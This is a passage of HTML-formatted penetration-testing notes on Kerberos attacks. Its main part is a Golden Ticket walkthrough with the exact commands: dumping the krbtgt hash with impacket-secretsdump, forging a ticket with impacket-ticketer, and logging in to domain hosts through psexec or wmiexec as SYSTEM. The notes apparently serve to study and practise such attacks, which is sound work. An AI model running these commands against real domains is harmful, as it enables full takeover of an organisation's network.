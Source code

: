                 <ul>
                    <li>Rc4/hash section requires knowledge of service account password.  If password is known, we can hash it.</li>
                </ul>
            </ul>
        </ul>
        <li>Verify ticket has been created</li>
        <ul>
            <li>Kerberos::list</li>
        </ul>
    </ul>

    <h2>Golden Ticket</h2>

    <li>Gives access to anything and everything</li>
    <li>Requires the password or hash for the service account krbtgt</li>
    <li>Must have access to an account that is a member of the domain admins group or have access to the domain controller itself.</li>
    <li>Creating the golden ticket does not require admin privileges and can be performed on a computer not joined to the domain.</li>
    <li>Creating golden ticket on Linux</li>
    <ul>
        <li>Get krbtgt hash</li>
        <ul>
            <li>impacket-SecretsDump</li>
        </ul>
        <li>Get domain SID</li>
        <ul>
            <li>On Windows</li>
            <ul>
                <li>PS > Get-ADDomain &lt;Domain&gt;</li>
            </ul>
        </ul>
        <li>impacket-ticketer</li>
        <ul>
            <li>impacket-ticketer -nthash &lt;krbtgt ntlm hash&gt; -domain-sid &lt;domain sid&gt; -domain &lt;Domain Name&gt; &lt;Username&gt;</li>
            <ul>
                <li></li>
            </ul>
        </ul>
        <li>export KRB5CCNAME=&lt;output .cache file from impacket-ticketer command&gt;</li>
        <li>psexec &lt;domain&gt;/&lt;username&gt;@&lt;ip address&gt; -k -no-pass</li>
        <ul>
            <li>Try adding domain names to /etc/host file before running</li>
            <ul>
                <li>Try DNS names instead of ip address in command</li>
            </ul>
            <li>psexec will always login as SYSTEM</li>
            <ul>
                <li>switch to wmiexec to login as Administrator instead of SYSTEM</li>
            </ul>
        </ul>
    </ul>
